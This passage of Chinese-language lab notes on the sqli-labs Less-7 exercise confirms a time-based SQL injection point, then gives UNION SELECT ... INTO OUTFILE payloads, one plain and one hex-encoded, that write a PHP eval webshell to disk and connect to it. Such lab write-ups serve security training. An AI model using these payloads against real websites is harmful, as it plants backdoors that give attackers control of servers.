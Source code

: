     `?id=3')) and sleep(5) --+`时成功延时，所以注入点就为`3'))`
    
    注入常规流程省略，表列数为`3`列，网站绝对路径为 `C:\sqil-labs-master\`
    
    - 写入`webshell` ，可以写入一句话木马，最好进行`16`进制转码，路径而是双斜杠是因为转义字符
        
        ```python
        # 不使用16进制编码版本
        Less-7/?id=1')) union select 1,2,'<?php @eval($_POST[1]); ?>' into outfile 'C:\\sqli-labs-master\\out_file.php' --+
        # 使用16进制编码，需要在前面加上0x
        Less-7/?id=1')) union select 1,2,0x3c3f70687020406576616c28245f504f53545b315d293b203f3e into outfile 'C:\\sqli-labs-master\\out_file.php' --+
        ```
        
        回到windows目录看可以看到已经上传了
        
        ![image.png](image%2010.png)
        
    - 连接`webshell` ，连接成功
        
        ![image.png](image%2011.png)
        

### into dumpfile

效果其实和`outfile`是一样的
